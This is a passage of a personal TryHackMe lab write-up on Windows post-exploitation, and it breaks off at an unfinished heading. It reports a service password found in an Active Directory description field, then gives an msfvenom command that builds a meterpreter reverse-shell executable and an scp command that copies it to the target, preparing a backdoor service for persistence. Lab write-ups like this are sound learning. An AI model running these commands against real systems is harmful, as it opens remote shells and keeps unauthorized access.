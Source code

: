 
Apparently, THM claims that some sys admins do not know that attackers can see Description in this "Active Directory Users and Computers' so they set passwords there like above.

>What is the SQL Service password 

MYPassword123# (just expand the vieew from the above screenshot)

>What tool allows to view the event logs?

Server Manager -> Tools -> Event Viewer

Had to rely on other writeups for this because on my desktop as RDP disconnects after 30 seconds or so.

![rdp](assets/img/rdp.ong)

Referred to this writeup: https://hex-men.tech/post_exploitation_basics/

## Maintaining Access

To maintain access here, the method to be used is a meterpreter shell + a metasploit module to maintain access by creating a backdoor service.

The backdoor service works by giving instant meterpreter shell if the target machine is shutdown/resets.

Requires some knowledge with msfvenom and metasploit. At this point, I am familiar enough with metasploit but not so much with msfvenom despite having used it several times. Mostly because I'm not sure wahts the difference between the two since I thought msfvenom is part of metasploit.

### Generate payload with msfvenom

So in this section, msfvenom is used to generate a payload (note to self: remember this msfvenom usecase please).

>msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=5555 -f exe -o shell.exe

The command I used to generate the payload. tun0 refers to my localhost which I got from 'ifconfig'.

### Transfer payload file (shell.exe) to target machine

There's a few ways to do this. The writeup I referred before used a Python HTTP server but that method is too tedious so instead I used scp with ssh

>scp shell.exe Administrator@10.10.159.225:'C:\Users\Administrator\Downloads'

And it worked well and it so much more easier. 

I referred to this but since the target machine is Windows, the directory is different. 
https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/

Additionally, this method only works if the target machine has ssh and we have credentials so in real world situation, might need to use the HTTP server method OR netcat or whatever else.

### Setting the payload
